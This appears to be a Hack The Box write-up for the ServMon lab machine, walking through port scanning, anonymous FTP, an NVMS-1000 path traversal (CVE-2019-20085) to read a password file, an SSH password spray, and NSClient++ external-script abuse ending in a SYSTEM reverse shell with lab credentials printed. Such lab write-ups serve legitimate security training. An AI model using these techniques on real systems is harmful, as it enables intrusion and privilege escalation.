---
tags:
  - CVE-2019-20085
  - nsclient
group: Windows
---


- Machine : https://app.hackthebox.com/machines/ServMon
- Reference : https://0xdf.gitlab.io/2020/06/20/htb-servmon.html
- Solved : 2025.3.21. (Fri) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Open Ports: `21(FTP), 22(SSH), 80(HTTP), 135, 139, 445(SMB), 5666, 6063, 6699, 8443(HTTPS-Alt)`
    - **FTP Access**:
        - **Anonymous login allowed**.
        - Retrieved files from `/Users/Nadine` and `/Users/Nathan`.
        - `Confidential.txt` mentions `Passwords.txt` on Nathan's Desktop.
        - `Notes to do.txt` references **NVMS** and **NSClient++**.
        
2. **Service Exploitation**
    - **HTTP (NVMS Web Interface)**:
        - Found login page redirect on `/Pages/login.htm`.
        - Used **CVE-2019-20085 (Path Traversal)** to fetch `Passwords.txt`.
        - Extracted password list from `C:\Users\Nathan\Desktop\Passwords.txt`.
    - **Password Spray (SSH)**:
        - Valid credential found: `Nadine : L1k3B1gBut7s@W0rk`
        - Gained shell access as **nadine** via SSH.
        
3. **Privilege Escalation**
    - **NSClient++ Enumeration**:
        - Found config file `nsclient.ini` with plaintext password: `ew2x6SsGTxjRwXOT`
    - **HTTPS Interface (Port 8443)**:
        - Login failed due to restricted host access (`127.0.0.1`).
        - Used **SSH local port forwarding** to access the web GUI.
    - **Command Execution via NSClient++ Web GUI**:
        - Added new external script configuration in **Settings > External Scripts**.
        - Scheduled and executed reverse shell as **SYSTEM** via web GUI.

### Key Techniques:

- **Enumeration**: Nmap, FTP mirror, SMBClient, file discovery.
- **Exploitation**: CVE-2019-20085 (NVMS path traversal), password reuse.
- **Privilege Escalation**: NSClient++ external script abuse (runs as SYSTEM).

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/servmon]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.184
Performing quick port scan on 10.10.10.184...
Found open ports: 21,22,80,135,139,445,5666,6063,6699,8443,49664,49665,49666,49667,49668,49669,49670
Performing detailed scan on 10.10.10.184...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 06:08 MDT
Nmap scan report for 10.10.10.184
Host is up (0.13s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  x11?
6699/tcp  open  napster?
8443/tcp  open  ssl/https-alt
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| http-title: NSClient++
|_Requested resource was /index.html
```

### ftp(21)

It allows anonymous login.

```bash
┌──(kali㉿kali)-[~/htb/servmon]
└─$ ftp anonymous@10.10.10.184
Connected to 10.10.10.184.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49678|)
150 Opening ASCII mode data connection.
02-28-22  07:35PM       <DIR>          Users
```

Let's mirror the share.

```bash
┌──(kali㉿kali)-[~/htb/servmon/ftp]
└─$ wget --mirror 'ftp://anonymous@10.10.10.184'
--2025-03-17 06:46:25--  ftp://anonymous@10.10.10.184/
           => ‘10.10.10.184/.listing’
Connecting to 10.10.10.184:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> PASV ... done.    ==> LIST ... done.

...SNIP...
```

Tree the downloaded directory.

```bash
┌──(kali㉿kali)-[~/htb/servmon/ftp]
└─$ tree
.
└── 10.10.10.184
    └── Users
        ├── Nadine
        │   └── Confidential.txt
        └── Nathan
            └── Notes to do.txt

5 directories, 2 files
```

Let's see what the files are.

```bash
┌──(kali㉿kali)-[~/…/ftp/10.10.10.184/Users/Nadine]
└─$ cat Confidential.txt        
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine  


┌──(kali㉿kali)-[~/…/ftp/10.10.10.184/Users/Nathan]
└─$ cat Notes\ to\ do.txt 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint     
```

`Passwords.txt` file is stored on `Nathan`'s desktop.
There might be an NVMS server (video) which is publicly accessible.

### http(80)



The title is "NVMS-1000" with login page.


# Shell as `nadine`

### CVE-2019-20085

I googled and found one existing vulnerability CVE-2019-20085.
I found [manual version of exploit](https://www.exploit-db.com/exploits/47774).

According to the explanation, it triggers path traversal exploit when fetching `/../../../../../../../../../../../../windows/win.ini`.



The exploit worked.
Given the finding that there's a `Passwords.txt` file on Nathan's Desktop, I fetched `C:\Users\Nathan\Desktop\Passwords.txt`.



Then it returns password list!

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

I tested these passwords with two known usernames; `nathan`, `nadine`.

```bash
┌──(kali㉿kali)-[~/htb/servmon]
└─$ crackmapexec ssh 10.10.10.184 -u Nathan -p passwords.txt --continue-on-success
SSH         10.10.10.184    22     10.10.10.184     [*] SSH-2.0-OpenSSH_for_Windows_8.0
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:1nsp3ctTh3Way2Mars! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:Th3r34r3To0M4nyTrait0r5! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:B3WithM30r4ga1n5tMe Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:L1k3B1gBut7s@W0rk Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:0nly7h3y0unGWi11F0l10w Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:IfH3s4b0Utg0t0H1sH0me Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:Gr4etN3w5w17hMySk1Pa5$ Authentication failed.

                                                                            
┌──(kali㉿kali)-[~/htb/servmon]
└─$ crackmapexec ssh 10.10.10.184 -u Nadine -p passwords.txt --continue-on-success
SSH         10.10.10.184    22     10.10.10.184     [*] SSH-2.0-OpenSSH_for_Windows_8.0
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:1nsp3ctTh3Way2Mars! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:Th3r34r3To0M4nyTrait0r5! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:B3WithM30r4ga1n5tMe Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [+] Nadine:L1k3B1gBut7s@W0rk 
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:0nly7h3y0unGWi11F0l10w Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:IfH3s4b0Utg0t0H1sH0me Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:Gr4etN3w5w17hMySk1Pa5$ Authentication failed.
```

And I could find one valid password for `Nadine` : `L1k3B1gBut7s@W0rk`

Using this credential, let's open a shell.

```bash
┌──(kali㉿kali)-[~/htb/servmon]
└─$ ssh Nadine@10.10.10.184
Nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```

```bash
nadine@SERVMON C:\Users\Nadine\Desktop>dir 
 Volume in drive C has no label.                
 Volume Serial Number is 20C1-47A1              
                                                
 Directory of C:\Users\Nadine\Desktop           
                                                
02/28/2022  08:05 PM    <DIR>          .        
02/28/2022  08:05 PM    <DIR>          ..       
03/17/2025  05:05 AM                34 user.txt 
               1 File(s)             34 bytes   
               2 Dir(s)   6,312,964,096 bytes free
```


# Shell as `SYSTEM`

### Enumeration

```bash
nadine@SERVMON C:\Program Files>dir
 Volume in drive C has no label.
 Volume Serial Number is 20C1-47A1

 Directory of C:\Program Files

02/28/2022  07:55 PM    <DIR>          .
02/28/2022  07:55 PM    <DIR>          ..
03/01/2022  02:20 AM    <DIR>          Common Files
11/11/2019  07:52 PM    <DIR>          internet explorer
02/28/2022  07:07 PM    <DIR>          MSBuild
02/28/2022  07:55 PM    <DIR>          NSClient++
02/28/2022  07:46 PM    <DIR>          NVMS-1000
02/28/2022  07:32 PM    <DIR>          OpenSSH-Win64
02/28/2022  07:07 PM    <DIR>          Reference Assemblies
02/28/2022  06:44 PM    <DIR>          VMware
11/11/2019  07:52 PM    <DIR>          Windows Defender
11/11/2019  07:52 PM    <DIR>          Windows Defender Advanced Threat Prot
ection
09/15/2018  12:19 AM    <DIR>          Windows Mail
11/11/2019  07:52 PM    <DIR>          Windows Media Player
09/15/2018  12:19 AM    <DIR>          Windows Multimedia Platform
09/15/2018  12:28 AM    <DIR>          windows nt
11/11/2019  07:52 PM    <DIR>          Windows Photo Viewer
09/15/2018  12:19 AM    <DIR>          Windows Portable Devices
09/15/2018  12:19 AM    <DIR>          Windows Security
02/28/2022  07:25 PM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              20 Dir(s)   6,308,769,792 bytes free
```

I accessed "Program Files" directory, and thought that `NSClient++` looks interesting.

NSClient is an  [agent](https://nsclient.org/nsclient/) designed originally to work with Nagios but has since evolved into a fully fledged monitoring agent which can be used with many monitoring tools.

I found `nsclient.ini` file which might contains configuration.

```bash
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
# If you want to fill this file with all available options run the follow
ing command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:        
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

As expected, it contains password as plaintext : `ew2x6SsGTxjRwXOT`

### smb(445)

```bash
┌──(kali㉿kali)-[~/htb/servmon]
└─$ smbclient -L 10.10.10.184 -U nadine
Password for [WORKGROUP\nadine]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.184 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

I enumerated SMB shares, but only default shares exist.

### https(8443)



The website is pretty broken. After a few tries, the login page is loaded.
I tried to use the found password, but it returned "403 not allowed".

I think it's due to the `allowed hosts = 127.0.0.1` setting on `nsclient.ini`.
Let's do local port forwarding.

```bash
┌──(kali㉿kali)-[~/htb/servmon]
└─$ ssh -L 8443:127.0.0.1:8443  Nadine@10.10.10.184 
Nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
```

Then, let's try to connect the same page from localhost with the following URL :
`https://127.0.0.1:8443/index.html`

With the found password(`ew2x6SsGTxjRwXOT`), I can pass the authentication.



I found one useful exploit from [exploit-db](https://www.exploit-db.com/exploits/46802).
It's utilizing low privileged user to read web administrator's password.
From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.

The user is able to enable the modules to check external scripts and schedule those scripts to run.  
here doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  
Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  
A reboot, as far as I can tell, is required to reload and read the changes to the web config.

Even though I already exposed the credential, let's try another method.

```bash
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```




I need to enable `CheckExternalScripts` and `Scheduler`, but they are already enabled.

Next, on "Settings" panel, I added new script.



I specified new section's name, and put "command" in "Key", and the batch file path on "Value".



After that, I applied the change by clicking "Changes" -> "Save configuration", and "Control" -> "Reload".

Then, I can see the created script on "Queries".



I clicked "Run", and ran the script. (Need to setup a listener on Kali ahead)



Then, I was able to open a shell as `SYSTEM`.

```bash
┌──(kali㉿kali)-[~/htb/servmon]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.184] 49894
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```